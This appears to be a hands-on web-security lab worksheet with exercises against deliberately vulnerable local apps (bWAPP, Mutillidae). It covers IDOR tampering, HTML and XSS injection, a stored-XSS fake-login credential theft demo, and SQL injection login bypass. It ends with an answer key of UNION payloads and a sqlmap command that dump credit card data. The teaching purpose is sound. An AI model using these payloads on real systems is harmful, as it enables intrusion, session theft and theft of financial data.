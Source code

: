 # Basic: Insecure direct object reference {.container-fluid}
## 1) http://127.0.0.1/bWAPP/insecure_direct_object_ref_2.php
- Using [mitmproxy](http://127.0.0.1:8081), modify the request/response associated with the link above and figure out how to pay less (or nothing) for the tickets - or even get reimbursed!

## 2) http://127.0.0.1/bWAPP/smgmt_admin_portal.php
- Make sure security is set to low
- Look at the hint after visiting the page above and find out how to gain admin access
- Now set security to medium
- Use [mitmproxy](http://127.0.0.1:8081) to watch the traffic (requests and responses) and figure out how to gain admin access

# Basic: Injection {.container-fluid}
## 1) http://127.0.0.1/bWAPP/htmli_post.php
- Set security to low
- Using [mitmproxy](http://127.0.0.1:8081), inject simple HTML tags in the parameter values by following the steps below:
    * Watch the traffic generated by visiting the initial page, entering your name, and submitting the form. Notice that whatever you typed becomes visible on the page.
    * Now modify the applicable requests to inject some HTML tags. Notice the effect that has on the page.
      e.g., `<h1>Firstname</h1> and <u>Lastname</u>`

- Try some XSS!
`<script>alert('Hello!');</script>`

    ```
    XSS (Cross-site scripting) is an attack that allows for unauthorized modification of websites, theft of credentials and/or sessions, and many other scenarios depending on the web application. While these popups are conspicuous and harmless, a real attack would have real consequences and be invisible.
    ```

- Use XSS to look at your cookies. Cookies are a mechanism for the server to keep track of who's logged in.
`<script>alert(document.cookie);</script>`

## 2) http://127.0.0.1/mutillidae/index.php?page=login.php
- Click "Toggle Security" until it's set to "Client-side Security"
- Type a single quote (') in the password field and take a look at the error message that comes back. You will have to use Burp Suite to get around this.
- Using [mitmproxy](http://127.0.0.1:8081), bypass the client-side validation by intercepting a valid request (e.g., where the username and password are just letters), then modifying the values within the intercepted request so that your single quote is added to the password parameter. Take a look at the error now; it should be a raw error from the mysql database.

    ```
    Note this section of the error (this will vary if your single quote was in the username field):
    Query: SELECT * FROM accounts WHERE username='' AND password='''

    What you must do is ensure that the WHERE clause always be true. Try this in the username field (note the space after "--"):
    test' or 1=1; --

    With that, the query becomes:
    SELECT * FROM accounts WHERE username='test' or 1=1; -- ' AND password='''
    ```
    **Here's the trick: two dashes in SQL turn everything after them into a harmless comment, meaning the password check won't even execute!**
- You should be logged in as admin! Logout and try some others using Repeater (1=2, 'a'='a', etc.).


# Intermediate: Insecure direct object reference {.container-fluid}
## 1) http://127.0.0.1/mutillidae/robots.txt
- Take a look at the response from that page. Do you see anything interesting?

    ```
    This file, robots.txt, is used by many websites to handle how web crawlers (such as Google's indexing engine) will crawl them.
    Usually, it contains a list of directories where the crawler is not allowed to go - which immediately becomes a list of directories for attackers to visit! Let's take a look at the passwords directory.
    ```
- Visit the http://127.0.0.1/mutillidae/passwords/ page you found listed under `robots.txt` and open the containing `accounts.txt` file!

## 2) http://127.0.0.1/mutillidae/index.php?page=register.php
- Click "Toggle Security" until it's set to "Hosed"
- Create a new user account, then proceed to log in with that account.
- Using [mitmproxy](http://127.0.0.1:8081), intercept the login request.
- Forward the request, and look at the intercepted response.
- Try logging in as admin by modifying the "uid" cookie on the response.

# Intermediate: Injection {.container-fluid}
## 1) http://127.0.0.1/bWAPP/htmli_stored.php
- Before beginning, set security to low
- Post any comment you wish
- Using [mitmproxy](http://127.0.0.1:8081), find the response containing your comment. Take a look at the HTML table structure where your comment was added.
- Using HTML, try to impersonate another user by recreating the blog table structure

    ```
    I've created a script and fake login page that you can use to simulate an XSS attack for stealing someone's session cookie (if that cookie is not properly protected).
    Take a look at the script file (http://127.0.0.1/redirect.js). All it does is reset the victim's session, effectively logging them out, and then present a fake login page so they can "log back in". The error popup is just added for flavor.
    ```
- Inject the following payload as a blog comment:
  `Hello!<script src="http://127.0.0.1/redirect.js"></script>`
- You will see a (fake) pop-up page asking you to log in.

    ```
    Feel free to enter any credentials, but if you click the button, you will have to clear your browser cookies to be able to use the bWAPP site again on account of what the script does.
    However, if you do enter some credentials, you can see something cool (see next step).
    ```
- If this were a real attack, an attacker would have stolen the credentials, which would have been logged in the attacker's own web server logs. To see the logs:
    * Open a terminal (Win+R, then type "lxterminal" and hit enter)
    * Type: "sudo grep login= /var/log/apache2/access.log"
    * See the credentials you entered? This information could be on a remote, attacker-controlled server if this were a real attack.


# Challenge: Retrieve credit card numbers via SQL injection {.container-fluid}
## http://127.0.0.1/mutillidae/index.php?page=user-info.php

### Tips:
- The database table that the page is using has 7 columns (this is the reason for the 1,2,3,4,5,6,7 below)
- You can use `information_schema.tables` and `information_schema.columns` to gather information
- Using `where table_schema=database()` as a condition will restrict your results to the database being used by the application (rather than all DBs in the system)
- Use `concat(table_name)` and `concat(column_name)` to learn table/column names
- Start with this (note the space after "--"):
`' union select 1,2,3,4,5,6,7 from information_schema.tables where table_schema=database(); -- `

### Answers {#answers .collapse}
```
' union select 1,2,3,4,5,6,7 from information_schema.tables where table_schema=database(); --
' union select 1,concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database(); --
' union select 1,concat(table_name),concat(column_name),4,5,6,7 from information_schema.columns where table_name='credit_cards'; --
' union select 1,ccnumber,ccv,expiration,5,6,7 from credit_cards; --
```
Alternatively, you can use sqlmap to find that information nearly automatically. Just type the following command into a local terminal and keep hitting Enter for every prompt:
`sqlmap -r ~/.req --flush-session --fresh-queries --dbms mysql --technique U -p username -v 3 --search -T credit`

###
<button class="btn btn-danger" data-toggle="collapse" data-target="#answers">Show Answers</button>

